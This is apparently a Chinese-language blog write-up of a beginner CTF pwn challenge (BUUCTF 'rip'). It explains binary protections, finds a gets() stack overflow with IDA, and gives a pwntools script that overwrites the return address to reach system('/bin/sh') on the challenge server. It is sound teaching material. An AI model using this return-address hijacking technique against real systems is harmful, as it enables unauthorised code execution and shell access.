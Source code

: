 ```yaml
---
title: pwn第一道题目
date: 2021-11-25
categories: ctf
tags:
- pwn
- ctf
---
```


记录第一次尝试做pwn题目。

<!-- more -->

# 1.访问题目

这里选择的是buuctf在线测评上面的rip题目，下载到一个附件和一个nc链接

![](https://0314valen.github.io/images/img/pwn_rip/1.jpg)

首先在Ubuntu里nc访问一下这个端口

![](https://0314valen.github.io/images/img/pwn_rip/2.jpg)

直接运行这个文件

![](https://0314valen.github.io/images/img/pwn_rip/3.jpg)

总结下来大概就是能够进行一次输入并接受值然后输出，并附带了两个友情提示之类的字符串输出，然后可能在接受的时候存在溢出的可能性。

# 2.收集信息

### 2.1checksec

使用checksec查看安全机制：checksec ./pwn1	(checksec filename)

![](https://0314valen.github.io/images/img/pwn_rip/4.jpg)

### 补充备注：

#### Arch:

程序架构信息，判断是64位还是32位，exp编写的时候是p64还是p32

#### RELRO

Relocation Read-Onl（RELRO）此项技术主要针对GOT改写的攻击方式，它分成两种，Partial RELRO和FULL RELRO。

```
Partial RELRO（部分）：容易受到攻击，例如攻击者可以atoi.got为system.plt进而输入/bin/sh\x00获得shell
FULL RELRO（完全）：使整个GOT只读，从而无法被覆盖，但这样会大大增加程序的启动时间，因为程序在启动之前需要解析所有的符号。
```

#### Stack-canary

栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈里插入类似cookie的信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中我们将cookie信息称为canary。

#### NX

NX enabled如果这个保护开启就是意味着栈中数据没有执行权限，如此一来, 当攻击者在堆栈上部署自己的 shellcode 并触发时, 只会直接造成程序的崩溃，但是可以利用rop这种方法绕过。

#### PIE

PTE（Position-Independent Executable，位置无关可执行文件）技术与ASLR技术类似，ASLR将程序运行时的堆栈以及共享库的加载地址随机化，而PIE及时则在编译时将程序编译为位置无关，即程序运行时各个段（如代码但等）加载的虚拟地址也是在装载时才确定，这就意味着。在PIE和ASLR同时开启的情况下，攻击者将对程序的内存布局一无所知，传统改写GOT表项也难以进行，因为攻击者不能获得程序的.got段的虚地址。若开始一般需在攻击时泄露地址信息。

#### RPATH/RUNPATH

程序运行是的环境变量，运行时所需要的共享库文件优先从该目录寻找，可以fake lib造成攻击，实例：攻击案例

#### FORTIFY

这是一个由GCC实现的源码级别的保护机制，其功能是在编译的时候检查源码以避免潜在的缓冲区溢出等错误
简单地说，加了和这个保护之后，一些敏感函数如read,fgets,memcpy,printf等等可能导致漏洞出现的函数会替换成`__read_chk,__fgets_chk`等。
这些带了chk的函数 会检查读取/复制的字节长度是否超过缓冲区长度，通过检查诸如%n之类的字符串卫视是否位于可能被用户修改的可写地址，避免了格式胡字符串跳过某些函数如直接(%7$x)等方式来避免漏洞出现，开启FORTIFT保护的程序会被checksec检出，此外，在反编译是直接查看got表也会发现chk函数的存在，这种检查是默认不开启的，可以通过。

### 2.2 ida反编译

用ida反汇编，可以看到是gets函数有个简单的栈溢出，偏移也很好计算，F+8=23（后面补充原因）

![](https://0314valen.github.io/images/img/pwn_rip/5.jpg)

反编译之后可以看到main函数的主要代码片段。

![](https://0314valen.github.io/images/img/pwn_rip/6.jpg)

此处能看到s字符串的长度是15位。

![](https://0314valen.github.io/images/img/pwn_rip/8.jpg)

![](https://0314valen.github.io/images/img/pwn_rip/9.jpg)

此外还发现一个fun函数可以直接跳转到这里来获取shell。

![](https://0314valen.github.io/images/img/pwn_rip/7.jpg)

system函数可以接受参数。

### 2.3payload

```
#python3 需要预先安装pwntools
from pwn import *
p = remote('node3.buuoj.cn', '27532') 
payload = b'a' * (0xf + 8) + p64(0x40118A) #这个b是转换为字节流，python3特色 
#这个15+8 好像很神奇的样子，有点玄虚在里面
p.sendline(payload)
p.interactive()      
```

解释：get函数最后必有一个retn 返回调用地址。堆栈平衡什么的。

0x40118A就是劫持的一个目标函数地址，就是在在上面fun函数中对应的/bin/sh的位置。

使得get 返回了0x40118A，而不是main 中调用get 后的地址。

retn相当于pop + 执行，故形成了返回地址劫持。

效果是：pop 堆栈 ebp,esp 这里记不清了，应该是这两个寄存器中的一个，0x40118A
等价为：

pop 堆栈

call system("/bin/sh")

# 3.解释备注

这个就是15+8的来历

15是s的长度，8是因为64位的系统

我们这边要造成溢出利用，就得要从变量那边写数据，溢出到返回地址，这需要输入的字符串的长度=变量大小+ebp

32位程序的ebp的大小是4，64位程序的ebp的大小是8

前面使用checksec命令查看文件的信息，是64位。64位就是8byte

### 3.1pwntools

send(data): 发送数据

sendline(data) : 发送一行数据，相当于在末尾加\n

recv(numb=4096, timeout=default) : 给出接收字节数,timeout指定超时

recvuntil(delims, drop=False) : 接收到delims的pattern （以下可以看作until的特例）

recvline(keepends=True) : 接收到\n，keepends指定保留\n

recvall() : 接收到EOF

recvrepeat(timeout=default) : 接收到EOF或timeout

interactive() : 与shell交互

连接：本地process()、远程remote(ip,port)，对于remote函数可以接url并且指定端口

数据处理：主要是对整数进行打包：p32、p64是打包为二进制，u32、u64是解包为二进制

IO模块：这个比较容易跟zio搞混，记住zio是read、write，pwn是recv、send